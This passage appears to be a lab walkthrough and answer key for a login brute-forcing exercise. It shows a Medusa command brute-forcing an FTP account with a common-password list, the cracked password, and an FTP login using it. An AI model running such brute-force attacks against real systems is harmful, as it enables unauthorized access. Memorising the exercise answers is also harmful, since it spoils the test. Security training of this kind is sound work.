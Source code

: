 Code: shell

```shell
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
```

```
sshuser@ng-8414-loginbfservice-of7kt-7fd949d965-pt5d2:~$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

<SNIP>

ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qqww1122 (16 of 197 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: {hidden} [SUCCESS]
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 1 complete) Password: 1234 (17 of 197 complete)

<SNIP>
```

Answer: `qqww1122`

# Web Services

## Question 2

### "After successfully brute-forcing the ssh session, and then logging into the ftp server on the target, what is the full flag found within flag.txt?"

Students will reuse the previously established SSH session and will connect to the FTP service using the previously found password:

Code: shell

```shell
ftp ftp://ftpuser:qqww1122@localhost
```

```
sshuser@ng-8414-loginbfservice-of7kt-7fd949d965-pt5d2:~$ ftp ftp://ftpuser:qqww1122@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp>
```
